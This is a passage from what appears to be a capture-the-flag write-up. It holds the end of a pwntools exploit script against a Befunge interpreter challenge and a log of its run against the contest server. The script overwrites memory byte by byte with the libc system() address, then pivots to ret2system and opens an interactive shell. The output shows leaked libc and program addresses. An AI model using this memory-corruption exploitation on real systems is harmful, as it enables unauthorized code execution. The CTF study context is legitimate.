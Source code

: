     log.info("Argument ptr to /bin/sh")

    libc_system = p64(libc_system)
    r.sendline(str(ord(libc_system[0])))
    r.sendline(str(offset_x+8+8))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))

    r.sendline(str(ord(libc_system[1])))
    r.sendline(str(offset_x+1+8+8))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))

    r.sendline(str(ord(libc_system[2])))
    r.sendline(str(offset_x+2+8+8))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))

    r.sendline(str(ord(libc_system[3])))
    r.sendline(str(offset_x+3+8+8))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))

    r.sendline(str(ord(libc_system[4])))
    r.sendline(str(offset_x+4+8+8))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))

    r.sendline(str(ord(libc_system[5])))
    r.sendline(str(offset_x+5+8+8))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))
    log.info("ret2system")

    r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/mma/interpreter/befunge/befunge'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
  befunge python ./befunge.py pwn1.chal.ctf.westerns.tokyo 62839
[*] For remote: ./befunge.py HOST PORT
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 62839: Done
[*] Program: 0x55dd2af45040
[*] Exit: 0x7fbb797de1e0
[*] Setvbuf: 0x7fbb798125a0
[*] Libc base: 0x7fbb797a2000
[*] Main base: 0x55dd2ad43000
[*] POP RDI  : 0x55dd2ad44273
[*] __environ: 0x7fbb79b634a0
[*] Offset_y : 0x85fa959fa7
[*] Offset_x : 0x30